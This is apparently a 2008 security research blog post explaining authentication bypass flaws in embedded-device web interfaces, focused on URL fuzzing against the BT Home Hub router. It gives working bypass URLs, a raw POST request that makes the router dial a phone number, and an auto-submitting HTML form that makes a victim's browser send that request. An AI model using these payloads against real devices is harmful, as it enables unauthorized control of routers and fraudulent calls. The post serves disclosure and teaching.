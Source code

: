 ```yaml
---
title: Holes In Embedded Devices Authentication Bypass (pt 1)
author: pagvac
date: Thu, 14 Feb 2008 12:13:33 GMT
template: post.jade
---
```


Finding authentication bypass bugs is an obvious choice for attackers, since such bugs allow administrative changes to be made without knowledge of the admin password. In other words, compromising the target device without requiring a password is of course something attackers are interested in! You bet!

After performing my own research and going through authentication bypass bugs on embedded devices published by other peers in the community, I came to the conclusion that these bugs are usually (or at least quite often) very simple flaws in web interfaces. Once you find one of these bugs they are usually trivial to exploit, and remind you of web vulnerabilities that you would expect finding in the 90s, but not these days.

The fact that embedded devices are very primitive in terms of hardware, ultimately means that the security of the software running on them is also sacrificed. Most of the authentication bypass bugs found on web interfaces of embedded devices fall into one of the following categories:

* URL fuzzing a.k.a. additional representation of URLs
* A-to-C attacks a.k.a. knowledge of "post-authentication" URLs
* Unchecked HTTP methods
* Unchecked administrative HTTP requests aka unprotected cgi scripts
* Unprotected redirects

We will go through all these authentication bypass bugs in detail. For this post, we will only cover the first type: URL fuzzing a.k.a. additional representation of URLs<.

## Authentication bypass via URL fuzzing

URL fuzzing targets bugs in the web server or server-side scripts that are part of the web console of an embedded device. These bugs could be due to a poorly-written regex, and finding them is all about finding alternative ways to represent a URL that would usually grant access to administrative functionalities. Sometimes, there are multiple ways a URL can be represented which is still understood by the target device, but causes the device to not require the user to enter a password.

For instance, the BT Home Hub, which is the most popular DSL router in the UK is [vulnerable](/blog/bt-home-flub-pwnin-the-bt-home-hub-4) to an authentication bypass bug due to the device accepting multiple representations of the same URL as valid, but only checking for password when submitting URLs in their original form. For example, the URL for accessing the firewall settings looks like: `http://bthomehub/cgi/b/secpol/cfg/` or `http://bthomehub/cgi/b/secpol/cfg/?ce=1&be=1&l0=4&l1=7` (they're both equivalent). However, appending various characters after the directory path allows attackers to completely bypass the authentication prompt:

* http://bthomehub/cgi/b/secpol/cfg/%5C
* http://bthomehub/cgi/b/secpol/cfg//
* http://bthomehub/cgi/b/secpol/cfg/%
* http://bthomehub/cgi/b/secpol/cfg/~

...and so on. The same technique could be used in this case not only to retrieve administrative settings, but also to make administrative changes. The only difference is that the requests must be submitted as POST rather than GET, but we still append the special characters to the URL the POST request is submitted to.For instance, the following POST request causes the BT Home Hub to call the Internet Office of the Holy See. Notice the double slash in the POST URL:

```http
POST /cgi/b/_voip_/stats//?ce=1&be=0&l0=-1&l1=-1&name= HTTP/1.1
Host: bthomehub

0=30&1=00390669893461
```

Such requests could be submitted by the victim's web browser via a HTML form with a `method="POST"` attribute:

```html
<html>
<body>
<form name="form" method="POST" enctype="application/x-www-form-urlencoded" action="http://bthomehub/cgi/b/_voip_/stats//?ce=1&be=0&l0=-1&l1=-1&name=">
<input type="hidden" name="0" value="30"/>
<input type="hidden" name="1" value="00390669893461"/>
</form>
<script>form.submit()</script>
</body>
</html>
```
